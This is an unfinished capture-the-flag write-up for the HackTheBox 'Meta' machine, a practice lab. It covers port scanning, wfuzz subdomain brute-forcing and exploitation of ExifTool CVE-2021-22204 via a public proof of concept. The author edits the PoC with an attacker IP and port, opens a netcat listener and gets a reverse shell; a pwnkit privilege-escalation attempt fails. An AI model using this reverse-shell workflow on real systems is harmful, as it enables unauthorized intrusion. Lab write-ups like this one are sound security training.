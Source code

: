```yaml
---
layout: post
title: CTF Meta
date:   2022-02-01 20:15:02 -0600
categories: CTF
tags: Linux
---
```


# hosts

/etc/hosts
10.10.11.140 artcorp.htb

# rustscan

```sh
rustscan -a meta.htb  --range 1-65000

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
# wfuzz


Nothing with the dir listing
But with the sub listing I have this:
https://infinitelogins.com/2020/09/02/bruteforcing-subdomains-wfuzz/
```sh
wfuzz -c -f sub-fighter -w Documents/wordlist/subdomains.lst -u 'http://artcorp.htb' -H "Host: FUZZ.artcorp.htb" --hw 9000 |grep 200
```
![](https://i.imgur.com/bDR4PlH.png)
dev01.artcorp.htb.
I add it to my /etc/hosts.

![](https://i.imgur.com/PCCkNS7.png)
![](https://i.imgur.com/7JLdMUl.png)

It's an exif tool, to see the metadatas.
# Exploit exiff


https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
I found this website who can give cool infos.
CVE-2021-22204
https://github.com/convisolabs/CVE-2021-22204-exiftool
## Install exiftool
https://exiftool.org/install.html

## Install djvulibre
sudo pacman -S djvulibre

## Download
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git 
## Edit the file 

ip = '10.10.15.22'
port = '4444'


## Open the listener
```sh
nc -nlvp 4444
```
# BOOMMMM

I upload the file and the shell pop.
![](https://i.imgur.com/QAVnkMH.png)

# Exploit pwnkit
It's not working.
![](https://i.imgur.com/98Q0Qjk.png)

I think I have to get the user first.
 should also do a directory with all my tools and open the python http server when I need them.

I need th go to sleep...




